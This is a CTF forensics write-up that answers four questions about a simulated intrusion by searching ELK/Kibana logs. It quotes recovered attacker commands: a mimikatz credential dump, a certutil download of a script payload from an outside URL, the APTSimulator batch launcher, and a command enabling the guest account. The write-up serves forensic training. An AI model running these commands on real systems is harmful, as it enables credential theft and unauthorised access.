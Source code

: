 # Hunting into the wild (forensics, 972p, 27 solved)

## Description

```
We received a report from our colleagues that one of the computers started behaving strangely and our analyst limited the investigation (based on interviews with the employees) for the period 3.12.2020 - 4.12.2020 when he thinks the malicious events were triggered in the network system. Can you please help us learn more about the situation?

Q1. Some corrupted employees tried to dump admin passwords, using a popular script among hackers, but we don’t know exactly its name. Can you help us in the investigation? Flag format: CTF{process_name}

Q2. For us, it’s very difficult to make the difference between a legit and a malicious command using Windows native tools. Can you please identify what command was used by the attacker when downloading the malware on our system? Flag format: command line used by the attacker

Q3. We also know that the attackers used multiple attacking persistent threats & scripts when attacked our systems. Can you please help us determine what is the name of the initial script used for performing the attack? Flag format: CTF{script_name)

Q4. Victims to these attacks reported that a new admin account was created on their operating machines. What is the command used by the attacker to activate the new account? Flag format: command line
```

In the task we get an archive with ELK stack deployment with some indexed data (not attached).

## Initial setup

Unpack, docker-compose up and hope for the best.

## Searching through logs

The idea of this task is to query Kibana and find answers to the questions.
This is actually a really nice and practical task!

### Q1

We suspect the tool used is `mimikatz` and there is for example `sekurlsa::LogonPasswords` command.
Looking for that we find:

```
C:\TMP\mim.exe sekurlsa::LogonPasswords > C:\TMP\o.txt
```

So the answer is `ctf{mim.exe}`

### Q2

This was the hardest one, because it's very unclear what is `malware` in this context, and at which point.
It was clear that there was this `APTSimulator` toolset on the machine, so we guessed we need to figure out where did it come from.
Finally we pinpointed:

```
certutil.exe  -urlcache -split -f https://raw.githubusercontent.com/NextronSystems/APTSimulator/master/download/cactus.js C:\Users\Public\en-US.js
```

which passed as flag.

### Q3

If we look for first references to `APTSimulator` we can find:

```
C:\Windows\system32\cmd.exe /c """"C:\Users\IEUser\Desktop\APTSimulator\APTSimulator.bat
```

So `ctf{APTSimulator.bat}`

### Q4

We first checked how account can actually be activated on windows via `net user` and the command is `/active:yes` and looking for that gave us:

```
net user guest /active:yes
```

which validated as last flag.